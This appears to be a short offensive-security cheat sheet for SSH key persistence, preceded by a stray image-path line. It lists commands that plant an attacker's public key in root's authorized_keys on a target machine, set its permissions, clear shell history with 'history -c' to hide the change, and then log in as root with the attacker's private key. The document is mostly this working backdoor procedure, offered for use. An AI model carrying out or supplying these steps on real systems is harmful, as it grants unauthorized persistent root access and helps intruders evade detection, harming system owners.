 ### Prerequisites
root access

ssh service is running

    # service sshd status  
    # systemctl status sshd

In the ssh config
- PermitRootLogin < without-password | yes >
- PublicKeyAuthentication yes
- AuthorizedKeysFile .ssh/authorized_keys

### Attacker

    # ssh-keygen
    
### Target

    # mkdir -p /root/.ssh
    # echo '<ATTACKER_PUBLIC_KEY>' >> /root/.ssh/authorized_keys
    # chmod 600 /root/.ssh/authorized_keys
    # history -c

### Exploitation 

    ssh root@<TARGET_IP>[:SSH_PORT] -i <ATTACKER_PRIVATE_KEY_PATH>


### Info
- ssh config paths : 
    - /etc/ssh/sshd_config